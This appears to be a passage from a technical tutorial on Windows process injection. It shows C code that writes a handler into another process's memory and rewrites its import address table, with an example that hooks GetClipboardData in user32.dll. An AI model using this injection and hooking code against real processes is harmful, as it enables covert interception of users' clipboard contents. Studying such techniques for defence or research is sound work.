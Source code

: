                   return TRUE;
            }
      }
 
      return FALSE;
}

Once the handler code is patched up it can be injected and the import address can be modified to point to it.

// Write handler to .text section
bSuccess = WriteProcessMemory
(
      hProcess,
      (LPVOID)dwHandlerAddress,
      pHandlerBuffer,
      dwHandlerSize,
      0
);
 
if (!bSuccess)
{
      printf("Error writing process memory");
      return FALSE;
}
 
printf("Handler address: 0x%p\r\n", dwHandlerAddress);
 
LPVOID pAddress = (LPVOID)((DWORD)pPEB->ImageBaseAddress +
      descriptor.FirstThunk + (dwOffset * sizeof(IMAGE_THUNK_DATA32)));
 
// Write IAT
bSuccess = WriteProcessMemory
(
      hProcess,
      pAddress,
      &dwHandlerAddress,
      4,
      0
);
 
if (!bSuccess)
{
      printf("Error writing process memory");
      return FALSE;
}    
 
return TRUE;
 
Making the call to hook the function is simple enough. All we need is the target process Id, module name, function name, handler, and handler size.
 
HookFunction
(
      dwProcessId,
      "user32.dll",
      "GetClipboardData",
      handler,
      0x100
);
 